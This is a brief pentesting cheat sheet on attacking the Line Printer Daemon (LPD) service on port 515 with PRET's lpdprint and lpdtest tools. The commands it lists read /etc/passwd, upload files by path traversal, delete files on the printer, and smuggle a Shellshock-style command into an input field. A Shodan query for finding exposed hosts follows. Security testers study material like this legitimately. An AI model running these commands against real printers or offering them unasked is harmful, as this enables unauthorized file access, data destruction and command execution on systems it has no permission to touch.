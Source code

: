 515 - Pentesting Line Printer Daemon (LPD)

The Line Printer Daemon (LPD) protocol had originally been introduced in Berkeley Unix in the 80s (later specified by RFC1179).
The daemon runs on port 515/tcp and can be accessed using the lprcommand. To print, the client sends a control file defining job/username and a data file containing the actual data to be printed. The input type of the data file can be set in the control file by choosing among various file formats. However it is up to the LPD implementation how to actually handle the print data. A popular LPD implementation for Unix-like operating system is LPRng. LPD can be used as a carrier to deploy malicious PostScript or PJL print jobs. 

The lpdprint and lpdtest tools are included in PRET. They are a minimalist way to print data directly to an LPD capable printer or download/upload/delete files and more:

lpdprint.py hostname filename
lpdtest.py hostname get /etc/passwd
lpdtest.py hostname put ../../etc/passwd
lpdtest.py hostname rm /some/file/on/printer
lpdtest.py hostname in '() {:;}; ping -c1 1.2.3.4'
lpdtest.py hostname mail lpdtest@mailhost.local

If you want to learn more about hacking printers read this page.
Shodan

    port 515
